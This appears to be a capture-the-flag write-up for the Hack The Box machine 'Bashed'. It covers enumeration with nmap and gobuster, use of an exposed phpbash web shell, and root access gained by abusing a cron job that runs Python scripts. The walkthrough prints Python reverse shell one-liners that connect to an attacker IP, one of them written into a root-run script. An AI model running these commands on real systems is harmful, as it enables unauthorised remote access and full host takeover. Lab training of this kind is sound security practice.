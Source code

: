 ![logo](/logo.png)

# [Bashed- BOX]  
Hi folks, today I am going to solve an Easy rated hack the box machine which was released on 09 Dec 2017 as the fifth machine on HTB,Bashed created by [Arrexel](https://app.hackthebox.com/users/2904) .So without any further intro, let'sf jump in.

# common enumeration

## Nmap
  *http
  *phpbash
  *cronjob
  
###### code-nmap

```code
nmap -sV -sC -oA nmap/bashed 10.10.10.68
```

###### Output 

![](/Linux/Linux-Easy/Bashed/Screenshots/nmap.png)

```sh
nmap -sV -sC -oA nmap/bashed 10.10.10.68                                                                                          ─╯
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-11 20:09 EAT
Nmap scan report for 10.10.10.68
Host is up (0.33s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 318.36 seconds
```

looking at the results  we find out that there are 1 ports open and its a `Ubuntu`and its running an `Apache httpd 2.4.18`. 

port[80]- http


when we naviagate to [https://10.10.10.68](https://10.10.10.68)  we find a page which talks about phpbash


![](/Linux/Linux-Easy/Bashed/Screenshots/browser.png)

 find nothing od interesting so lets start gobuster so that I can be able to enumerate active directories folders. 

```sh
gobuster dir -u http://10.10.10.68 -w /usr/share/wordlists/dirb/common.txt -k --no-error
```

![](/Linux/Linux-Easy/Bashed/Screenshots/gobuster.png)


it revels directories and looking at `dev` i find something interesting 

![](/Linux/Linux-Easy/Bashed/Screenshots/dev.png)

Clicking on phpbash gives a shell:

![](/Linux/Linux-Easy/Bashed/Screenshots/shell.png)

Inside `/home/arrexel` is the user flag:

![](/Linux/Linux-Easy/Bashed/Screenshots/userflag.png)

lest upgrade the shell so tha we can have a more interactive shell and using our local machine. we then run this to the webshell of the target.

```sh
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.15",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![](/Linux/Linux-Easy/Bashed/Screenshots/shell2.png)

## Takeover
 After geting the reverse shell we have to do some adjusment to our reverse shell to make it ready for using by doing a stty escalation to get an interactive shell:
#### code-stty
 ```bash
 python3 -c 'import pty;pty.spawn("/bin/bash")'
 [ctrl] + z
 stty raw -echo ; fg
 ```

```sh
export TERM=screen-256color
export SHELL=bash
stty rows 29 cols 135
reset
```

to check for colums and rows in you machine run

```sh
stty -a | head -n1 | cut -d ';' -f 2-3 | cut -b2- | sed 's/; /\n/'
```

![](/Linux/Linux-Easy/Bashed/Screenshots/stty.png)

lets run LinEnum to get info about possible privsec.

![](/Linux/Linux-Easy/Bashed/Screenshots/linenum.png)

The command `sudo -l` reveals that the `www-data` user can run any command as
`scriptmanager`. Running the command

![](/Linux/Linux-Easy/Bashed/Screenshots/sudol.png)

 Running the command will spawn a bash shell and give full read/write access to `/scripts`

```sh
sudo -u scriptmanager bash -i
```

![](/Linux/Linux-Easy/Bashed/Screenshots/bashi.png)

Looking at the information of the files in the directory shows that `test.py` appears to be executed
every minute. This can be inferred by reading `test.py` and looking at the timestamp of `test.txt`.
The text file is owned by root, so it can also be assumed that it is run as a root cron job. A root
shell can be obtained simply by modifying `test.py` or creating a new Python file in the `/scripts`
directory, as all scripts in the directory are executed.

lests creat a python exploit an execute it from the directory by editing `test.py`

```sh
echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.15\",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);" > test.py
```

and after a second we get root shell and we can get the `root flag` at 

![](/Linux/Linux-Easy/Bashed/Screenshots/rootflag.png)

	-------------------------END successful attack @lesley----------------------




